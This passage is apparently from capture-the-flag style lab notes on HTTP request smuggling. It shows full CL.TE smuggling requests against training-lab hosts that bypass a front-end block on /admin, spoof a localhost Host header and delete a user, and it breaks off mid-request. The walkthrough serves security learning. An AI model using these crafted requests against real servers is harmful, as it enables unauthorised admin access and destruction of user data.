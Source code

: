 The `CL` value must be something bigger than the length of:
```
x=1\r\n
0\r\n
\r\n
```

Send a normal `GET` request will result in the following request which trigger the `404 Not Found` response:

    GET /404 HTTP/1.1
    Host: 0ac000c904bae0df80ee768800a200de.web-security-academy.net
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 144

    x=GET / HTTP/1.1
    ...

### LAB: Exploiting HTTP request smuggling to bypass front-end security controls, CL.TE vulnerability
Notice that the front-end is blocking path to `/admin`. Bypass this by sending this request 2 times:

    POST / HTTP/1.1
    Host: 0a4c00c80308340d80c4fd7100d70069.web-security-academy.net
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 45
    Transfer-Encoding: chunked

    0

    GET /admin HTTP/1.1
    Foo:

Notice we now get another response indicating only local users are allowed to access the admin interface. Change the request to this and resend it 2 times:

    POST / HTTP/1.1
    Host: 0a4c00c80308340d80c4fd7100d70069.web-security-academy.net
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 119
    Transfer-Encoding: chunked

    0

    GET /admin HTTP/1.1
    Host: localhost
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 144

    x=

Now we successfully accessed the admin interface and notice the endpoint to delete user Carlos: `/admin/delete?username=carlos`. Resend this request 2 times to delete that user:

    POST / HTTP/1.1
    Host: 0a4c00c80308340d80c4fd7100d70069.web-security-academy.net
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 142
    Transfer-Encoding: chunked
